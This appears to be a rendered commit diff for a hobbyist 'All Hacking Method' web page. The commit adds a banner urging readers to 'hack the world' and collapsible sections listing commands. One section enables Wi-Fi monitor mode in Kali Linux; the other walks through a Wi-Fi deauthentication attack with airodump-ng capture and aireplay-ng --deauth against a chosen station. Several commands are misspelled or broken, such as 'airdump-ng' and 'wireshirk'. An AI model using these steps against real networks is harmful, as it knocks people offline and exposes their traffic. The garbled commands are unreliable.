

Before and after one commit to MrUnknownNoob/AllHackingMethod, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -8,7 +8,7 @@
   background-color: #777;
   color: white;
   cursor: pointer;
-  padding: 18px;
+  padding: 15px;
   width: 100%;
   border: none;
   text-align: left;
@@ -24,22 +24,19 @@
   padding: 0 18px;
   max-height: 0;
   overflow: hidden;
-  transition: max-height 0.2s ease-out;
+  transition: max-height 0.5s ease-out;
   background-color: #f1f1f1;
 }
+
+
 </style>
 </head>
-<body>
+<body bgcolor="Black">
 
-<h2>Animated Collapsibles</h2>
+  <h2><center> <font color=white>All Hacking Method By <a href="https://t1m3-30m3.github.io/ABOUTME/" style="text-decoration: none;color:red;">Zaber Mahmud Asif</a></font></center></h2>
 
-<p>A Collapsible:</p>
-<button class="collapsible">Open Collapsible</button>
-<div class="content">
-  <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat.</p>
-</div>
-
-<p>Collapsible Set:</p>
+<h3> <font color=white> Dear Hackers!! Welcome to this Site. This is Mainly all Attack Describe. So You Can Learn Lots os Things.If you want to Work with us.Contact with ME.</font></h3>
+<h4><center> <font color=white>HACK THE WORLD!! OTHERWISE YOU WERE HACKED BY OTHERS.</font></center></h4>
 <button class="collapsible">How to Change DNS in Kali??</button>
 <div class="content">
   <p><b>Method 01:: </b><br>
@@ -87,9 +84,45 @@
     </p>
 </div>
 
-<button class="collapsible">#</button>
+<button class="collapsible">Enable monitor mode in Kali Linux</button>
 <div class="content">
-  <p><b>#
+  <p><b>Method 01::</b><br>
+    sudo airmon-ng<br>
+    sudo airmon-ng check<br>
+    sudo airmon-ng check kill<br>
+    sudo airmon-ng start wlan0<br>
+    sudo iwconfig<br>
+    <b>Method 02::</b><br>
+     ifconfig wlan0 down<br>
+     iwconfig wlan0 mode monitor<br>
+     ifconfig wlan0 up<br>
+     iwconfig wlan0<br>
+     <b>Method 03::</b><br>
+i     wconfig<br>
+      airmon-ng wlan0 down<br>
+      airmon-ng check<br>
+      airmon-ng check kill<br>
+      airmon-ng start wlan0<br>
+      iwconfig<br>
+  </p>
+</div>
+
+<button class="collapsible">Deauthentication Attacks</button>
+<div class="content">
+  <p>
+
+    iwconfig wlan0<br>
+    airmon-ng start wlan0<br>
+    ifconfig<br>
+    iwconfig wlan0mon/wlan0<br>
+    airodump-ng wlan0mon/wlan0<br>
+    airdump-ng --channel [ch] --bssid [id] --write [file Name] [interface] <br>
+    ls name*<br>
+    cat name.csv<br>
+    wireshirk >> open the cap file<br>
+    airdump-ng --channel [ch] --bssid [BSSID] [interface] <br>
+    aireplay-ng --deauth [packet] -a [BSSID] -c [station/target] [interface]<br>
+
     </p>
 </div>
 
@@ -99,11 +132,8 @@
     </p>
 </div>
 
-<button class="collapsible">#</button>
-<div class="content">
-  <p><b>#
-    </p>
-</div>
+
+
 
 <script>
 var coll = document.getElementsByClassName("collapsible");
```
